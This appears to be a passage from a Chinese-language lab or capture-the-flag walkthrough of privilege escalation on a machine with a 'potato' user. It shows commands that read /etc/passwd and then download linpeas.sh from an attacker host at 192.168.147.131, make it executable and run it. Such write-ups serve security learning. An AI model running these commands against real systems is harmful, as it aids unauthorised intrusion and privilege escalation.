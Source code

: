 ![image-20250313112453442](assets/image-20250313112453442.png)

提示没有sudo命令



#### 查看用户信息

```
cat /etc/passwd
```

![image-20250313112540729](assets/image-20250313112540729.png)

可用的只有root和potato用户





#### 上传linpeas.sh

```
wget 192.168.147.131/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
